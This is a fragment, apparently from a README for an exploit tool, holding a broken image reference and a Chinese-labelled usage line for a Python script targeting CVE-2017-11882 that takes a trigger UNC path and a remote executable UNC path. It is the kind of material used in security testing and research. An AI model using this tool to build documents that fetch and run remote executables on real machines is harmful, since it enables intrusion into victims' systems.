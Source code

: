 
> 用法：
> python webdav_exec_CVE-2017-11882.py -u trigger_unc_path -e executable_unc_path -o output_file_name
